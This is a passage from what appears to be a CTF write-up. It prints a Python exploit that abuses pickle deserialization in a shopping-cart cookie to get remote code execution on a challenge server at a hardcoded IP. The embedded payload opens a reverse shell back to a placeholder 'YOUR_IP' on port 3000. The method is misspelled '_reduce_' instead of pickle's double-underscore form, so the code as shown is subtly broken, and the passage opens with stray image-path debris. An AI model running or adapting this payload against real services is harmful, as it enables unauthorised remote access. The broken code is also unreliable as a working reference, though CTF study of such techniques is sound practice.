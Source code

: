 ![18](./18.png)

But this was actually a false positive as it had issues with the bank.

Luckily I got a droplet in Digital Ocean from `H7CTF` .

Now we craft our exploit for RCE.

```python
import pickle, os, base64
import requests
from base64 import b64encode

class CommandExecution(object):
    def _reduce_(self):
        return (os.system, ("python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"YOUR_IP\", 3000)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call([\"/bin/bash\", \"-i\"])'",))

def create_payload():
    item = [{'item_id': 'ls', 'item_name': CommandExecution(), 'item_price': 'Rs. 4'}]
    serialized_data = pickle.dumps(item)
    encoded_data = b64encode(serialized_data).decode()
    return encoded_data

def send_request(encoded_payload):
    target_url = 'http://35.208.230.20/view'
    cookies = {
        'cart': encoded_payload
    }
    response = requests.get(target_url, cookies=cookies)
    return response.text

def main():
    payload = create_payload()
    print(f'[*] Payload: {payload}')
    result = send_request(payload)
    print('[*] Request result:')
    print(result)

main()

```

Running the exploit, it pops a shell BOOM.
